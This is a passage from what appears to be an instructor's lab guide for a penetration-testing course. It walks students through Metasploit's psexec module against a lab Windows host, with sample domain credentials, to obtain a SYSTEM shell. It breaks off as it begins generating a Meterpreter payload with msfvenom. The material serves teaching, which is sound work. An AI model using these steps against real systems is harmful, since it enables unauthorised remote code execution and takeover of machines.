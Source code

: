 
4. Load the module for PsExec with the following command:

	 - `use exploit/windows/smb/psexec`

5. Set the following options:

	 - set RHOST 172.22.117.20
	 - set SMBUser tstark
	 - set SMBPass Password!
	 - set SMBDomain megacorpone

     ![A screenshot depicts the options set correctly.](Images/msfsettings.PNG)

6. Run the module, and you should get a shell back as SYSTEM.

**Note:** If students ask what PSExec is, we will explore it more on Day 3. For now, they just need to know that PSExec is a way of remotely administrating Windows machines. There is also a Metasploit module for it.

7. In a new terminal tab or window, generate a Meterpreter payload using `msfvenom` with the following command:
